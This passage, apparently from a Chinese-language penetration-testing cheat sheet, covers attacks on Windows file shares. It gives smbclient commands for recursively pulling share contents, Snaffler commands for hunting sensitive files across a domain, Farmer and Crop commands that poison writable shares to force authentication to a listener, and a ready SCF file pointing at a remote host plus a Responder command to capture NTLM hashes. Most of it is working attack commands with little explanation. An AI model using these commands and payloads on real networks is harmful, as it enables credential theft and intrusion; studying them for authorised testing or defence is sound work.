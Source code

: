 * [smbclient - 来自Samba，类似ftp的客户端，用于访问服务器上的SMB/CIFS资源](#)

  ```powershell
  smbclient -U username //10.0.0.1/SYSVOL
  smbclient //10.0.0.1/Share
  
  # 递归下载一个文件夹
  smb: \> mask ""
  smb: \> recurse ON
  smb: \> prompt OFF
  smb: \> lcd '/path/to/go/'
  smb: \> mget *
  ```

* [SnaffCon/Snaffler - 一款帮助渗透测试人员寻找有趣内容的工具](https://github.com/SnaffCon/Snaffler)

  ```ps1
  snaffler.exe -s - snaffler.log
  
  # 获取域中所有计算机的信息
  ./Snaffler.exe -d domain.local -c <DC> -s
  
  # 获取特定计算机的信息
  ./Snaffler.exe -n computer1,computer2 -s
  
  # 获取特定目录的信息
  ./Snaffler.exe -i C:\ -s
  ```

## SCF和URL文件攻击可写共享

这些攻击可以使用[Farmer.exe](https://github.com/mdsecactivebreach/Farmer)和[Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)自动化。

```ps1
# Farmer接收认证
farmer.exe <端口> [秒数] [输出]
farmer.exe 8888 0 c:\windows\temp\test.tmp # 无限期
farmer.exe 8888 60 # 一分钟

# Crop可用于创建触发SMB/WebDAV连接的各种文件类型，用于在哈希收集攻击中污染文件共享。
crop.exe <输出文件夹> <输出文件名> <WebDAV服务器> <LNK值> [选项]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```

### SCF文件

将以下`@something.scf`文件放入共享文件夹中，并使用Responder启动监听：`responder -wrf --lm -v -I eth0`

```powershell
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```
